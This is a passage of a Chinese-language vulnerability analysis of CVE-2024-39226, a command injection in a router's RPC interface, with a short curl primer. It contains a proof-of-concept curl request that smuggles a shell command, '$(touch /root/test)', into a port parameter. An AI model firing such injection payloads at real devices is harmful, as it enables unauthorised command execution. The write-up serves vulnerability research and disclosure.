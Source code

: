 ![image-20250221162133914](./assets/CVE-2024-39226命令注入/image-20250221162133914.png)







## 3.漏洞分析

首先验证一下 poc，但是会返回 error

curl 常用来请求 Web 服务器，它的名字就是客户端（client）的 URL 工具的意思，curl 的常见用法：

* get：`curl url` ， -v 参数可以让我们看到详细的请求信息
* post：`curl -H header -d body -X 请求协议 url`
  * 请求协议可能是 POST、GET、DELETE、PUSH、PUT、OPTIONS、HEAD
  * 由于 `-d` 是 `--data` 的简写，用于向服务器发送数据，通常与 POST 请求一起使用，所以 poc 中没有写 `-X`

```shell
curl -H 'glinet: 1' 127.0.0.1/rpc -d '{"method":"call", "params":["", "s2s", "enable_echo_server", {"port": "7 $(touch /root/test)"}]}'
```

![image-20250221162749702](./assets/CVE-2024-39226命令注入/image-20250221162749702.png)

根据访问页面查看一下 rpc 相关信息，可以看到路径 /etc/nginx/conf.d/gl.conf 下有对其路径的处理方法

![image-20250221162919662](./assets/CVE-2024-39226命令注入/image-20250221162919662.png)
